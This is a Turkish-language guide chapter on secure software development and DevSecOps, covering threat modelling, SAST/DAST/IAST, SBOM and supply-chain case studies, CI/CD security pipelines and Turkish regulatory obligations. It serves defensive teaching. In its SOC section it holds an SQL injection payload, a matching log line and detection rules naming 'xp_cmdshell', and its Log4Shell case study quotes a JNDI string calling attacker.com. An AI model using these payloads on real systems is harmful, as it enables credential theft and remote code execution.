





# Güvenli Yazılım Geliştirme (SDLC) ve DevSecOps

Savunma derinliği mimarisinde uygulama katmanı, ağ perimetresi ve kimlik katmanı atlatıldığında saldırgan ile veri arasındaki son savunma hattıdır. CIS Controls v8 Kontrol 16 (Application Software Security) bunu açıkça ifade eder: saldırgan, ayrıntılı bir saldırı zinciri kurmak yerine doğrudan uygulamanın kendisini kullanarak veriyi ele geçirebilir. Günümüzde bu risk, SolarWinds, Log4Shell, XZ Utils ve Shai-Hulud gibi tedarik zinciri olaylarıyla kanıtlanmıştır; güvenlik artık sürüm sonuna sıkıştırılamaz, **sola kaydırılmalı (Shift-Left)** ve CI/CD boru hattına gömülmelidir.

Bu bölüm, NIST SP 800-218 (SSDF), OWASP SAMM, OWASP Top 10:2025, CIS Controls v8 ve ISO 27001:2022 çerçevelerinde güvenli SDLC, tehdit modelleme, SAST/DAST/IAST, tedarik zinciri savunması (SCA/SBOM/SLSA) ve DevSecOps otomasyonunu ele alır. Türkiye'de KVKK, 5651 ve BDDK yükümlülükleri operasyonel mimariyi doğrudan şekillendirir.


*Shift-Left: güvenlik aktivitelerinin SDLC'nin soluna taşınması*

---

## §10.1.1. Sola Kaydırma (Shift-Left) ve Tehdit Modelleme

Geleneksel SDLC'de güvenlik testleri kabul veya üretim öncesi aşamada yapılırdı. Bir kusurun düzeltilme maliyeti yaşam döngüsünde ilerledikçe katlanarak artar; tasarım aşamasında yakalanan bir zafiyet, üretimde düzeltilene kıyasla onlarca kat daha ucuzdur. **Shift-Left**, güvenlik gereksinimlerini, tehdit modellemeyi ve otomatik kontrolleri planlama ile kodlama aşamalarına çeker; merge ve deploy işlemlerini **güvenlik kapıları (security gates)** ile engeller.

NIST SP 800-218 (SSDF v1.1) bu felsefeyi dört uygulama grubuna ayırır:

| Grup | Açıklama | Shift-Left Karşılığı |
| :---- | :---- | :---- |
| **PO** | Organizasyonu hazırla | Güvenlik politikaları, eğitim, araç envanteri |
| **PS** | Yazılımı koru | SBOM, provenance, imzalama |
| **PW** | İyi güvenlikli yazılım üret | Tehdit modelleme, SAST, kod incelemesi |
| **RV** | Zafiyetlere yanıt ver | CVE triage, yama SLA, olay müdahale |

OWASP SAMM'de **Design** akışı (Threat Assessment, Security Requirements, Secure Architecture) aynı prensibi somutlaştırır.


*Güvenli yazılım geliştirme yaşam döngüsü yol haritası*

### STRIDE ve PASTA Metodolojileri

**Tehdit modelleme**, tasarım aşamasının kalbidir. İki temel metodoloji kurumsal ortamlarda yaygındır:

**STRIDE** (Microsoft, 1999): Model-merkezli yaklaşım. Veri Akış Diyagramı (DFD) üzerindeki her bileşene altı tehdit kategorisi uygulanır:

| Tehdit | Açıklama | Tipik Mitigasyon |
| :---- | :---- | :---- |
| **S**poofing | Kimlik sahteciliği | MFA, OAuth 2.0/OIDC |
| **T**ampering | Veri kurcalama | TLS 1.3, HMAC, dijital imza |
| **R**epudiation | İnkar | Değişmez, zaman damgalı loglama |
| **I**nformation Disclosure | Bilgi ifşası | Şifreleme, alan-seviyesi yetkilendirme |
| **D**enial of Service | Hizmet reddi | Rate limiting, kaynak kotası |
| **E**levation of Privilege | Yetki yükseltme | En az ayrıcalık, RBAC/ABAC |

**PASTA** (Process for Attack Simulation and Threat Analysis): Yedi aşamalı, risk-merkezli metodoloji. İş hedefleri ile teknik zafiyetleri birleştirir; saldırı simülasyonu ve skorlama içerir. STRIDE'a göre daha derin ve iş bağlamına oturur.

**DREAD** skorlaması (Damage, Reproducibility, Exploitability, Affected Users, Discoverability) tehditleri 1–10 arası puanlayarak önceliklendirir.

### Örnek Senaryo: Fintech Ödeme API'si

Tasarım aşamasında DFD çizilir; güven sınırı internet ile API Gateway arasındadır. STRIDE uygulandığında:

- *Spoofing* → zayıf JWT imza doğrulaması
- *Tampering* → istek gövdesinin değiştirilmesi
- *Information Disclosure* → fazla veri ifşası (excessive data exposure)
- *Elevation of Privilege* → BFLA ile admin endpoint erişimi

Her tehdit bir mitigasyon ile eşlenir (mTLS, imza doğrulama, alan-seviyesi yetkilendirme) ve SSDF PW.1 gereği gereksinim olarak kayıt altına alınır. BDDK Madde 20 kapsamında süreç denetlenebilir hale getirilir; KVKK kapsamında kişisel veri işleyen modüllerde ek input validation zorunlu kılınır.


*Tehdit modelleme: tasarım aşamasında risklerin proaktif yönetimi*

:::note
Microsoft Threat Modeling Tool ve IriusRisk gibi araçlar DFD tabanlı STRIDE sınıflandırmasını otomatikleştirir. Tehdit modeli "yaşayan doküman" olarak SDLC boyunca güncellenmelidir.
:::

---

## §10.1.2. Statik (SAST), Dinamik (DAST) ve Etkileşimli (IAST) Kod Analizi

Uygulama güvenliği testleri (AST) birbirini tamamlayan katmanlar oluşturur. Tek başına hiçbir yöntem yeterli değildir; savunma derinliği üçünün stratejik kombinasyonunu gerektirir.

| Boyut | SAST | DAST | IAST |
| :---- | :---- | :---- | :---- |
| **Analiz tipi** | Beyaz kutu (kaynak kodu) | Kara kutu (çalışan uygulama) | Gri kutu (ajan + runtime) |
| **SDLC konumu** | IDE, PR, commit | Staging, pre-prod | Test/QA (enstrümantasyonlu) |
| **Çalışan uygulama** | Gerekmez | Gerekir | Gerekir |
| **Yanlış pozitif** | Yüksek | Orta/düşük | Çok düşük |
| **Kör nokta** | Runtime config, business logic | Test edilmeyen yollar | Yalnızca tetiklenen yollar |
| **Örnek araçlar** | SonarQube, Semgrep, CodeQL | OWASP ZAP, Burp Suite | Contrast Security |

**Saldırgan–savunma dengesi:** Saldırgan, SAST'ın yakalayamadığı business logic zafiyetini veya DAST'ın tarayamadığı derin path'leri sömürür. Mavi takım katmanlı yaklaşım uygular: SAST ile PR'ları temiz tutar, IAST/DAST ile staging'de doğrular, üretimde WAF + SIEM korelasyonu ile kalan riski yönetir.

### IAST ve Taint Analysis

IAST ajanları JVM veya .NET CLR içine enjekte edilir (`-javaagent:iast-agent.jar`). **Taint Analysis** mekanizması güvenilmeyen kaynaklardan (HTTP parametreleri, cookie) gelen veriyi "lekeli" işaretler; sanitizasyon geçmeden kritik sink'e (SQL execute, `Runtime.exec`) ulaşırsa anında raporlar. Bu, SAST'ın yüksek yanlış pozitifini ve DAST'ın kod satırı eksikliğini telafi eder.

NIST SSDF **PW.7** (statik analiz) ve **PW.8** (dinamik analiz/fuzz) bu üçünü kapsar. Pratik varsayılan entegrasyon:

- Her PR'da SAST (Semgrep/SonarQube)
- Staging'de DAST (zamanlanmış + sürüm tetikli)
- Test kapsamı iyi olan modüllerde IAST
- Seçili üretim servislerinde RASP (performans testi + geri alma planıyla)

Semgrep 4.000+ kuralını OWASP Top 10:2025 eşlemesine güncellemiştir; örneğin OS Command Injection kuralı `A05:2025 - Injection` ile etiketlenir.

### RASP: Çalışma Anındaki Son Savunma Hattı

**RASP (Runtime Application Self-Protection)**, üretim ortamında çalışan uygulamanın içine gömülü ajan veya kütüphane ile gerçek zamanlı saldırı engelleme sağlar. SAST'ın statik analizi, DAST'ın dış testi ve IAST'ın QA ortamı doğrulamasının ardından RASP, canlı trafikte exploit girişimlerini bloklar.

| Özellik | RASP | WAF |
| :---- | :---- | :---- |
| **Konum** | Uygulama process'i içinde | Ağ/edge katmanında |
| **Bağlam** | Tam kod ve runtime bağlamı | HTTP isteği/yanıtı |
| **Business logic** | Kısmen görür | Göremez |
| **Performans etkisi** | Orta-yüksek | Düşük-orta |
| **Dağıtım** | Seçili kritik servisler | Tüm public trafik |

RASP, WAF'ın kaçırdığı business logic saldırılarını veya şifreli trafik içindeki uygulama-seviyesi anomalileri tamamlar. Ancak her servise RASP eklemek performans ve operasyonel karmaşıklık yaratır; PCI DSS veya BDDK kapsamındaki ödeme/kimlik servisleri önceliklendirilir.

### Bulgu Yönetimi ve Triyaj

Birden fazla güvenlik aracından gelen bulgular **DefectDojo**, Jira veya ServiceNow üzerinde birleştirilir. Triyaj süreci:

1. **Otomatik deduplication:** Aynı CVE'nin SAST + SCA + container taramasında tekrarlanması
2. **Severity + exploitability:** CISA KEV, EPSS skoru, exploit PoC varlığı
3. **Asset kritikliği:** Üretim / PII işleyen / internet-facing öncelik
4. **SLA atama:** Critical 24s, High 7g, Medium 30g

SOC entegrasyonu: açık zafiyet + exploit attempt korelasyonu (ör. Log4Shell CVE'si açıkken `${jndi:` log pattern'i).

### SOC Entegrasyonu: SQL Injection Tespiti

Ofansif senaryo: saldırgan `?q=' UNION SELECT null, username, password FROM users --` gönderir. Nginx erişim logu:

```
192.168.10.45 - - [20/Jun/2026:14:32:10 +0300] "GET /api/v1/search?q=%27%20UNION%20SELECT%20null%2C%20username%2C%20password%20FROM%20users%20-- HTTP/1.1" 200 4096
```

**Sigma kuralı** (platform bağımsız):

```yaml
title: Web Sunucu Erişim Loglarında SQL Enjeksiyonu Tespiti
status: stable
logsource:
  category: webserver
detection:
  selection:
    url|contains:
      - 'union select'
      - 'or 1=1'
      - 'xp_cmdshell'
  condition: selection
level: critical
```

**Wazuh özel kural** (`/var/ossec/etc/rules/local_rules.xml`):

```xml
<group name="web,app_security,">
  <rule id="100051" level="12">
    <match>select|union|concat|xp_cmdshell|--</match>
    <description>Kritik SQL Enjeksiyonu Saldırı Girişimi.</description>
    <mitre><id>T1190</id></mitre>
  </rule>
</group>
```

HTTP 200 yanıtı, zafiyetin başarıyla istismar edilmiş olabileceğine işaret eder; olay "Kritik" öncelikle sınıflandırılır (NIST SP 800-61).

---

## §10.1.3. Yazılım Tedarik Zinciri Güvenliği, SCA ve SBOM

Modern uygulamaların %70–90'ı açık kaynak bileşenlerden oluşur. OWASP Top 10:2025'te en çarpıcı yapısal değişiklik, "A06 Vulnerable Components" kategorisinin **A03:2025 - Software Supply Chain Failures** olarak genişletilmesidir. Topluluk anketinde katılımcıların %50'si bunu birincil endişe olarak işaretledi; en yüksek exploit/impact skoruna sahiptir.

**SCA (Software Composition Analysis)**, bağımlılıkları NVD, OSV ve GitHub Advisory veritabanlarıyla tarar. **SBOM (Software Bill of Materials)** bu sürecin makine-okunur envanter çıktısıdır.


*SBOM: yazılımın "içindekiler listesi" ve zafiyet yönetimi*

### SBOM Formatları

| Kriter | CycloneDX | SPDX |
| :---- | :---- | :---- |
| **Geliştirici** | OWASP / Ecma-424 | Linux Foundation / ISO 5962 |
| **Odak** | Güvenlik, zafiyet, otomasyon | Lisans, telif, yasal uyum |
| **VEX desteği** | Yerleşik | Harici profiller |
| **Kapsam** | SBOM, CBOM, HBOM, SaaSBOM | Paketler, lisanslar, ilişkiler |

**Araç zinciri (açık kaynak):**

- **Syft**: konteyner imajı ve dosya sisteminden SBOM üretir
- **Grype**: SBOM'u CVE veritabanlarıyla eşler
- **Trivy**: tarama + SBOM üretimi
- **OWASP Dependency-Track**: SBOM kalıcı veritabanı, sürekli yeniden değerlendirme
- **Cosign / Sigstore**: artifakt ve SBOM imzalama
- **VEX**: "bu CVE ürünümüzü gerçekten etkiliyor mu?" sorusunu standart biçimde yanıtlar

```bash
# Temel SBOM akışı
syft packages dir:./build/libs -o cyclonedx-json > sbom.json
grype sbom:./sbom.json --fail-on high
```

CISA KEV (Known Exploited Vulnerabilities) kataloğu önceliklendirmede en üst sinyaldir.

### Vaka Çalışmaları

**1. SolarWinds / SUNBURST (Aralık 2020):** Saldırganlar build sistemini ele geçirdi. SUNSPOT enjektörü `MsBuild.exe` sürecini izleyerek Orion derlenirken kaynağı değiştirdi. İmzalama sistemi trojanlı kodu imzaladı. Yaklaşık 18.000 müşteri trojanlı sürümü indirdi; ancak fiilen ele geçirilen müşteri sayısı resmi açıklamaya göre 100'den azdı. **Savunma dersi:** build ortamı bütünlüğü, SLSA provenance, üç heterojen build ortamı.

**2. Log4Shell / CVE-2021-44228 (CVSS 10.0):** `${jndi:ldap://attacker.com/a}` loglandığında RCE. SOC tespiti: loglarda `${jndi:}` dizesi, 389/636 portlarına anormal LDAP bağlantıları. Yama: 2.16.0+.

**3. XZ Utils / CVE-2024-3094:** "Jia Tan" iki yıl güven inşa edip liblzma'ya SSH backdoor yerleştirdi. Andres Freund'un performans anomalisi araştırmasıyla keşfedildi. **Savunma dersi:** maintainer güven modeli, build-time davranış analizi.

**4. Shai-Hulud npm solucanı (2025):** `preinstall` aşamasında çalışan, Bun runtime kullanan, kendini çoğaltan kampanya. 700+ npm paketi, 27.000+ zararlı GitHub deposu, ~14.000 sızdırılmış secret. **Savunma:** `npm ci` + lockfile, scoped token, preinstall denetimi, registry proxy/SCA.

### OWASP ASVS ve Güvenlik Gereksinimleri

**OWASP ASVS (Application Security Verification Standard)** 4.0, uygulama güvenliği gereksinimlerini üç doğrulama seviyesinde tanımlar:

| Seviye | Kapsam | Tipik Kullanım |
| :---- | :---- | :---- |
| **L1** | Temel savunma | Düşük riskli dahili uygulamalar |
| **L2** | Standart kurumsal | Çoğu internet-facing uygulama |
| **L3** | Maksimum güvenlik | Finans, sağlık, kritik altyapı |

ASVS gereksinimleri tehdit modelleme çıktılarıyla eşleştirilerek Security Requirements Traceability Matrix (SRTM) oluşturulur. BDDK kapsamındaki finansal uygulamalar genellikle ASVS L2+ hedefler.

### Container ve IaC Güvenliği

CI/CD pipeline'ında uygulama kodunun yanı sıra altyapı tanımları da taranmalıdır:

```bash
# Terraform güvenlik taraması
checkov -d ./terraform --framework terraform --check HIGH,CRITICAL

# Kubernetes manifest taraması
trivy config ./k8s/manifests/
```

**Kyverno** admission controller ile imzalanmamış (`cosign verify`) container imajlarının cluster'a girmesi engellenir. CIS Controls v8 Safeguard 16.7 (hardening şablonları) ve 16.8 (üretim/üretim-dışı ayrımı) bu kontrollerle örtüşür.

:::caution
SLSA ve SBOM, koddaki kötü niyetli ekleri tespit etmez; yalnızca artifaktın kökenini kanıtlar. İkisi birlikte kullanılmalıdır.
:::

---

## §10.1.4. CI/CD Pipeline'a Güvenlik Otomasyonu (DevSecOps)

DevSecOps, güvenliği yavaşlatmadan sola kaydırır. Amaç: geliştirici hızını korurken otomatik güvenlik kapıları koymaktır.


*DevSecOps: güvenlik kontrollerinin CI/CD boru hattına entegrasyonu*

### SLSA (Supply-chain Levels for Software Artifacts)

| Seviye | Gereksinim | Kurumsal Hedef |
| :---- | :---- | :---- |
| **L1** | Otomatik, script tabanlı build; temel provenance | Başlangıç |
| **L2** | Hosted build service; imzalı provenance | Çoğu ekip |
| **L3** | İzole ephemeral build; imza anahtarı script'ten ayrık | Üretim hedefi |

SLSA Level 3 pratik hedeftir: GitHub Actions OIDC token → Fulcio CA → kısa ömürlü sertifika → Rekor şeffaflık logu. `slsa-github-generator`, build job'ın imza anahtarına erişememesini sağlar.

### Pipeline Katmanları

| Aşama | Güvenlik Aktivitesi | Araçlar |
| :---- | :---- | :---- |
| **Plan** | Politika tanımı | Terrascan, Checkov |
| **Code** | SAST, secret tarama | Semgrep, Gitleaks |
| **Build** | SCA, SBOM | Syft, Grype, Trivy |
| **Test** | DAST, IAST | OWASP ZAP |
| **Package** | İmaj tarama, imzalama | Trivy, Cosign, Kyverno |
| **Run** | Runtime izleme | Falco, WAF, SIEM |

**Gating stratejisi:** Critical/High CVE → build başarısız; SBOM üretimi başarısız → dur; imzalanmamış artifakt → reddedilir.

### GitHub Actions Örneği

```yaml
name: DevSecOps Pipeline
on: [push, pull_request]
jobs:
  security:
    runs-on: ubuntu-latest
    permissions:
      id-token: write
      contents: read
    steps:
      - uses: actions/checkout@v4
      - name: SAST (Semgrep)
        uses: returntocorp/semgrep-action@v1
      - name: Secret Scan (Gitleaks)
        run: gitleaks detect --source . --redact
      - name: SBOM + SCA (Syft + Grype)
        run: |
          syft packages dir:./ -o cyclonedx-json > sbom.json
          grype sbom:./sbom.json --fail-on high
      - name: Sign artifact (Cosign)
        run: cosign sign-blob --yes sbom.json
      - name: DAST (OWASP ZAP baseline)
        uses: zaproxy/action-baseline@v0.12.0
        with:
          target: 'https://staging.example.com'
```

### GitLab CI Örneği (Özet)

```yaml
stages: [build, test, security_scan, deploy]

gitleaks_secrets_scan:
  stage: test
  image: zricethezav/gitleaks:latest
  script: [gitleaks detect --verbose --source=$CI_PROJECT_DIR --redact]
  allow_failure: false

sonarqube_sast:
  stage: security_scan
  script:
    - sonar-scanner -Dsonar.qualitygate.wait=true
  allow_failure: false

trivy_container_scan:
  stage: security_scan
  script:
    - trivy image --exit-code 1 --severity CRITICAL,HIGH my-registry/app:latest
  allow_failure: false
```

**Ek kontroller:** pre-commit hooks, IaC tarama, container admission control (Kyverno + cosign), CI/CD action pinning (commit SHA ile sabitleme), HashiCorp Vault ile dinamik secret çekimi.

Bulgular DefectDojo veya Jira'ya aktarılır; SOC'a "bilinen zafiyet + exploit attempt" korelasyonu için beslenir.

---

## §10.1.5. Uluslararası Standart ve Türkiye Mevzuatı Uyumu

| Kontrol | NIST SP 800-53 | ISO 27001:2022 | CIS v8 | Türkiye |
| :---- | :---- | :---- | :---- | :---- |
| Shift-Left / Tehdit Modelleme | SA-8, SA-11 | A.8.25 | 16.1 | BDDK Md. 20 |
| SAST / IAST | SA-11 | A.8.29 | 16.2 | BDDK Md. 23 |
| SCA / SBOM | SA-12, SR-3 | A.5.19–23 | 16.4–16.6 | KVKK veri güvenliği |
| CI/CD Otomasyon | CM-3 | A.8.19 | 16.5 | BDDK sürekli test |
| Loglama / SOC | SI-4, AU-6 | A.8.15–16 | 8.x | 5651, KVKK |

### KVKK (6698)

Kişisel veri işleyen yazılımlarda veri minimizasyonu, şifreleme ve loglama zorunludur. Loglar IP, kullanıcı ID içerebilir; KVKK m.5/2-a ve m.5/2-ç kapsamında hukuki yükümlülük nedeniyle açık rıza gerekmez, ancak aydınlatma metni zorunludur. SOC analistleri için veri maskeleme ve çift yetki (dual control) uygulanmalıdır.

### 5651 Sayılı Kanun

İnternet erişimi sağlayan kurumlar trafik bilgilerini **en az 1 yıl** saklar. Yönetmelik, dosya bütünlük değerlerinin **5070'e dayalı zaman damgası** ile korunmasını şart koşar. Sadece hash yeterli değildir; yasal geçerli zaman damgası (TÜBİTAK KAMU SM vb.) gereklidir.

### BDDK

Finans sektöründe güvenli yazılım geliştirme (Md. 20), sürekli güvenlik testleri (Md. 23), denetim izlerinin **asgari 3 yıl** saklanması zorunludur. TCMB tebliğinde denetim izleri **en az 10 yıl**; SPK tebliğinde **asgari 5 yıl** saklanır.

:::danger
Türk mevzuatındaki saklama süreleri tebliğ revizyonlarıyla değişebilir. Canlı log tutma talepleri denetçiden denetçiye farklılık gösterebilir; güncel tebliğ metinleri doğrulanmalıdır.
:::

---

## §10.1.6. Mimari Tavsiyeler ve Olgunluk Yol Haritası

### Hemen (0–30 gün)

- OWASP Top 10:2025'e göre tarama kurallarını güncelleyin (A03 Supply Chain, A10 Exceptional Conditions)
- CI/CD'de `grype --fail-on high` ve SBOM üretimini bloklayıcı kapı yapın
- SIEM zaman damgası ve NTP senkronizasyonunu doğrulayın

### Kısa Vade (30–90 gün)

- SLSA Level 3 provenance (OIDC + Cosign + Rekor)
- OWASP Dependency-Track ile sürekli SBOM izleme + VEX
- Tehdit modellemeyi (STRIDE/PASTA) tasarım sürecine kalıcı entegre edin

### Orta Vade (90–180 gün)

- DefectDojo ile çoklu araç bulgu birleştirme
- Merkezi SIEM'i 5651/KVKK/BDDK saklama süreleriyle yapılandırın
- OWASP SAMM Level 2+ olgunluk hedefi

### Remediation SLA Eşikleri

| Severity | SLA | Tetikleyici |
| :---- | :---- | :---- |
| Critical (KEV) | 24 saat | CISA KEV listesi |
| High | 7 gün | Grype/Snyk taraması |
| Medium | 30 gün | Sprint planlama |

### OWASP SAMM Olgunluk Hedefi

| Seviye | Kriterler |
| :---- | :---- |
| **Level 2** | Tehdit modelleme zorunlu, SAST+SCA pipeline'da, SBOM üretiliyor |
| **Level 3** | IAST+DAST otomatik, signed SBOM+VEX, SOC korelasyonu |

---

## Özet

Uygulama güvenliği tek bir araç veya "son kontrol" değildir. **Shift-Left + tehdit modelleme + katmanlı test (SAST/IAST/DAST) + SCA/SBOM + imzalı provenance** ile hem önleyici hem tespit edici katmanlar oluşturulur. Bu yapı NIST SSDF, OWASP SAMM, CIS Controls v8 ve Türkiye yasal yükümlülükleriyle uyumlu, ölçülebilir ve denetlenebilir bir Secure SDLC sağlar.

Güvenlik bir araç seti değil, kültür ve mühendislik disiplinidir. SDLC'nin DNA'sına işlenmiş güvenlik; SOC'un proaktif çalışmasını, tedarik zinciri şeffaflığını ve yasal uyumu aynı mimaride birleştirir.